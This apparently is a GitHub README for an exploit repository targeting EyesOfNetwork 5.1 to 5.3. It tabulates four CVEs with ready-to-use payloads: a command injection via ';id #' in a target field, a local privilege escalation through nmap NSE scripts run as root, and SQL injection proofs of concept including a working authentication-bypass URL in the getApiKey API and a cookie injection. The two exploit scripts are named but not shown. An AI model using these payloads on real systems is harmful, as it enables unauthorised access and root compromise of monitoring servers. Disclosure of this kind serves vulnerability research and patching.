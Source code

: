 # eonrce
EyesOfNetwork 5.1 to 5.3 exploits

Theses two exploit files uses the following CVE's:
| CVE_number__ | Description |
| ------------- | --- |
| CVE-2020-8654 | Discovery module to allows to run arbitrary OS commands<br>We were able to run the `id` command with the following payload in the target field : `;id #`.|
| CVE-2020-8655 | LPE via nmap NSE script<br>As the apache user is allowed to run nmap as root, we were able to execute arbitrary commands by providing a specially crafted NSE script.<br>nmap version 6.40 is used and doesn't have the `-c` and `-e` options.|
| CVE-2020-8656 | SQLi in API in getApiKey function on 'username' field<br>PoC: `/eonapi/getApiKey?username=' union select sleep(3),0,0,0,0,0,0,0 or '`<br>Auth bypass: `/eonapi/getApiKey?&username=' union select 1,'admin','1c85d47ff80b5ff2a4dd577e8e5f8e9d',0,0,1,1,8 or '&password=h4knet#`|
| CVE-2020-9465 | SQLi in API in Cookies `user_id` field<br>PoC: `Cookie: user_id=1' union select sleep(3) -- ;`|


### eonrce.py
![screenshot](eonrce53.gif)

### eonrce2.py
![screenshot](eonrce51.gif)


